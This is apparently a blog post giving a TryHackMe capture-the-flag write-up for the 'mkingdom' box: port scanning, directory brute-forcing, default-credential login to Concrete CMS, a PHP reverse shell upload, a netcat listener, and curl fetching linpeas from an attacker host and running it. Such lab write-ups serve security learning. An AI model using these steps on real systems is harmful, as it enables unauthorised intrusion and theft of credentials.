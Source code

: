```yaml
---
layout: post
title:  "TryHackMe: mkingdom"
description: Beginner-friendly box inspired by a certain mustache man.
date:   2024-07-08 11:43:59 +0100
categories: jekyll update
---
```


# mkingdom :
```sh
export IP= M-ip
```
# Enumeration:

I found the Port 85 referring to HTTP instead of 80.

```sh
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-20 18:42 EDT
Scanning 10.10.198.213 [4 ports]
Nmap scan report for 10.10.198.213
Host is up, received echo-reply ttl 63 (0.092s latency).
Scanned at 2024-09-20 18:42:40 EDT for 13s
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
85/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0H N0! PWN3D 4G4IN

NSE: Script Post-scanning.
Completed NSE at 18:42, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:42
Completed NSE at 18:42, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.78 seconds
           Raw packets sent: 1037 (45.604KB) | Rcvd: 1008 (40.312KB)
```
 
# Directory bruteforcing:

I found his /app directory that contain the web app with the concrete cms 8.5.2, this version has a CVE-2020-11476.

```sh
gobuster dir --url http://10.10.198.213:85/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
```sh
/app                  (Status: 301) [Size: 314] [--> http://10.10.198.213:85/app/]
```

![Screenshot_1](https://github.com/user-attachments/assets/4f368621-4827-4a50-977b-623e5a3b9cf6)

I checked the Blog to see if i can find some users .

![Screenshot_2](https://github.com/user-attachments/assets/2604c4b7-bae8-429e-bc76-78ef13368784)

I found this user 

![Screenshot_3](https://github.com/user-attachments/assets/3bd15567-9cb4-4f04-8508-c8d179095415)

I tried some default passwords on this user 'admin' the password is 'password'

![Screenshot_9](https://github.com/user-attachments/assets/8bc6a101-ba04-4266-802f-d4ee6a561831)

as i mentioned before the concrete cms 8.5.2 has a vuln thats make me add an extension to allow php file type to be downloaded to the machine.

![Screenshot_4](https://github.com/user-attachments/assets/97b5b439-0527-4a2c-84a9-bc248cb2f7ff)
![Screenshot_5](https://github.com/user-attachments/assets/0e70e322-77f6-4f0b-a804-66bfa7bf1c61)

Here i uploaded a php reverse shell to the machine and i got the ip to run it 

![Screenshot_6](https://github.com/user-attachments/assets/fa29c9fc-e852-459c-bfe7-f8a408e90060)
![Screenshot_7](https://github.com/user-attachments/assets/17ba45cc-0a26-431f-9ddf-8b394456760c)

# Initial access :
```sh
 nc -lvnp 9999   
```                       
```sh
listening on [any] 9999 ...
connect to [10.9.0.17] from (UNKNOWN) [10.10.198.213] 55916
Linux mkingdom.thm 4.4.0-148-generic #174~14.04.1-Ubuntu SMP Thu May 9 08:17:37 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 19:05:35 up 35 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),1003(web)
```
I used linpeas to enumerate the machine 

```sh
Attacker Machine
python3 -m http.server 80
Victim Machine
curl http://attackerIP/linpeas.sh -o linpeas.sh 
./linpeas.sh
```
I found password of the user toad in config file of the application concrete cms 8.5.2
 
![Screenshot_11](https://github.com/user-attachments/assets/0720af85-e3b0-4c3b-9f2e-d7058ef7685d)



